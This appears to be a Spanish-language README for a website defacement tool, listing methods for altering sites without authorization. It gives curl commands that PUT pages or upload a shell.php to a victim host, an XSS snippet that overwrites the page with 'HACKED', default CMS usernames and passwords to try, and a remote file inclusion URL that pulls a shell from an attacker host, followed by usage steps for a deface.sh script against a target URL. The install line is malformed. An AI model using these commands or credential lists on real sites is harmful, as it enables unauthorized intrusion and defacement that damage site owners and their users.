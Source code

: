 ## Defacement web; 

modifica o reemplaza el contenido de un sitio web sin autorización

## Metodos mas usados para deface web 

## 1.- Metodo PUT

curl -X PUT -d "@index25.htm" http://victima.com/index.htm

## 2.-Metodo SQLi Inyección SQL

curl -s "${URL}${VULN_PATH}${TEST_PAYLOAD}

## 3.- Metodo upload, subir una shell.php

curl -F "file=@shell.php" http://victima.com/upload

## 4.- Metodo XSS

<script>document.body.innerHTML = "HACKED";</script>

## 5 - Metodo Vulnerabilidades en CMS (WordPress, Joomla, Drupal), credenciales debiles

Usuarios: admin, wordpress, drupal, jomla, manager, administrator .. ,-  Claves: admin, joomla, drupal, wordpress, 123456, password

## 6.- Metodo remote File Inclusion (RFI) / Local File Inclusion (LFI)

http://victima.com/index.php?page=http://atacante.com/shell.php

#

## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index25.htm" "https://IP/index25.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.


http://www.hackingyseguridad.com/secure/index2.htm

